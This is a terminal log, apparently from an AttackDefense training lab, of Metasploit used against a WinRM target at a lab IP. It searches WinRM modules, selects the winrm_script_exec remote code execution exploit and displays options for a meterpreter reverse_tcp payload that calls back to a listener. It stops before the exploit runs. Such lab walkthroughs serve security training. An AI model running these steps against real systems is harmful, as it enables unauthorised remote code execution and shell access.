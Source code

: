```
Target IP Address : 10.0.28.36
```

```
root@attackdefense:~# service postgresql start && msfconsole -q
Starting PostgreSQL 12 database server: main.
msf5 > search winrm

Matching Modules
================

   #  Name                                        Disclosure Date  Rank    Check  Description
   -  ----                                        ---------------  ----    -----  -----------
   0  auxiliary/scanner/winrm/winrm_auth_methods                   normal  No     WinRM Authentication Method Detection
   1  auxiliary/scanner/winrm/winrm_cmd                            normal  No     WinRM Command Runner
   2  auxiliary/scanner/winrm/winrm_login                          normal  No     WinRM Login Utility
   3  auxiliary/scanner/winrm/winrm_wql                            normal  No     WinRM WQL Query Runner
   4  exploit/windows/winrm/winrm_script_exec     2012-11-01       manual  No     WinRM Script Exec Remote Code Execution


Interact with a module by name or index, for example use 4 or use exploit/windows/winrm/winrm_script_exec

msf5 > use exploit/windows/winrm/winrm_script_exec
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf5 exploit(windows/winrm/winrm_script_exec) > show options

Module options (exploit/windows/winrm/winrm_script_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   DOMAIN     WORKSTATION      yes       The domain to use for Windows authentification
   FORCE_VBS  false            yes       Force the module to use the VBS CmdStager
   PASSWORD                    yes       A specific password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      5985             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   URI        /wsman           yes       The URI of the WinRM service
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME                    yes       A specific username to authenticate as
   VHOST                       no        HTTP server virtual host


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.16.4       yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port

```